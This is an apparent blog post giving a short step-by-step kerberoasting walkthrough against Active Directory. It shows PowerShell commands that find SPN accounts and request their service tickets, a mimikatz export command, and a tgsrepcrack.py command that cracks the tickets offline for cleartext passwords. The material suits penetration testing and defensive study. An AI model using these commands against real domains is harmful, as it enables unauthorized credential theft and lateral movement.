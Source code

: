 ```yaml
---
layout: post
title: "Kerberoasting Active Directory Accounts"
date: 2022-07-09
---
```


## Identifying User Objects Vulnerable to Kerberoasting
<p>The below PowerShell command identifies user objects that have a Service Principal Name (SPN). Any user object with a SPN is vulnerable to kerberoasting. The below command requires the Active Directory PowerShell module.</P> 

~~~powershell
Get-ADUser -filter {(ServicePrincipalName -like "*") -and (Enabled -eq $true)} -Properties ServicePrincipalName, PasswordLastSet | Select Name, ServicePrincipalName, PasswordLastSet
~~~

<p>After obtaining user objects with SPN, the below PowerShell commands can be used to retrieve the service ticket, which contains the encrypted password.</p>

~~~powershell
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "InsertSPNNameHere"
~~~

<p>After retrieving the service ticket, it is stored in memory. A tool such as <https://github.com/gentilkiwi/mimikatz> can be used to retrive the service ticket from memory. The below mimikatz command retrieves service tickes from memory and saves it as a kirbi file.</p>

~~~cmd
mimikatz # kerberos::list /export
~~~

<p>The kirbi file can now be taken offline and cracked to reveal the clear text password. The <https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py> Python script and a wordlist can be used to crack the clear text password. Below is the required syntax:</p>

~~~bash
python3 tgsrepcrack.py dictionaryfile .kirbifile
~~~

![crackedspnexample](/assets/crackspn.png)



